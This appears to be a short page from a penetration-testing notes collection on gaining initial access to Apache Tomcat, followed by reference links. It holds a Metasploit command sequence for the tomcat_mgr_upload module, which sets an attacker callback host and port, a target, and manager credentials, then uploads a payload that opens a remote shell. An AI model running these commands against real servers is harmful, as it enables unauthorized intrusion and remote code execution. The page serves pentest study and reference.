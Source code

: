 # Initial Access

## Upload Payload

```
msf > use exploit/multi/http/tomcat_mgr_upload

msf exploit(multi/http/tomcat_mgr_upload) > options

msf exploit(multi/http/tomcat_mgr_upload) > set lhost <attacker_IP>

msf exploit(multi/http/tomcat_mgr_upload) > set lport <attacker_PORT>

msf exploit(multi/http/tomcat_mgr_upload) > set rhost <target_IP>

msf exploit(multi/http/tomcat_mgr_upload) > run username=<username> password=<password>
```

---
## References

### Backlinks

- [[JSP]]

- [[07 - Tactics & Techniques & Procedures Phases/D - Webapp Pentesting/0x07 - Web Panels/Apache Tomcat/Helpers/Scanners]]

### Rapid7

- [Rapid7: Metasploit Framework - Tomcat Mgr Upload Exploit Module](https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/exploit/multi/http/tomcat_mgr_upload.md)

### Hacktricks

- [Hacktricks: Tomcat](https://book.hacktricks.wiki/en/network-services-pentesting/pentesting-web/tomcat/index.html)

### Hacking Articles

- [Hacking Articles: Tomcat Penetration Testing](https://www.hackingarticles.in/tomcat-penetration-testing/)